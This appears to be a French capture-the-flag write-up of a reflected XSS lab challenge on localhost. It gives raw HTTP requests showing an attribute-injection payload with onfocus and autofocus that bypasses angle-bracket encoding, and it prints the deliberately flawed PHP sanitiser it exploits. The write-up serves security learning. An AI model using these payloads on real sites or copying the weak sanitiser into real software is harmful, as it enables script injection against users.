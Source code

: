 # xss5

## Exploitation

Cinquième challenge. L'auteur indique qu'il encode maintenant les caractères `<` et `>` :&#x20;

![](<../../../.gitbook/assets/image (9).png>)

Je tente la payload `<script>alert(1)</script>` afin de vérifier l'encodage. Le mot clé n'est pas réfléchi dans le message d'erreur mais en tant que valeur de l'attribut HTML `value` :&#x20;

![](<../../../.gitbook/assets/image (20).png>)

Et les chevrons sont encodés en entités HTML :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=%3Cscript%3Ealert%281%29%3C%2F%3Cscript%3E&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2159
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="&lt;script&gt;alert(1)&lt;/&lt;script&gt;" placeholder="keyword" required>
</div>
```

Seulement les chevrons sont encodés, il m'est alors possible de réutiliser la même technique d'attaque qu'au challenge xss2, `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+x%3D%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2160
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :

![](<../../../.gitbook/assets/image (49).png>)

## Analyse du code source

Le mot clé est bien réfléchi en tant que valeur de l'attribut HTML `value` mais un assainissement est tout d'abord effectué grâce à la méthode `xss_check()`. Cette méthode remplace les chevrons `<` et `>` en entités HTML :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```

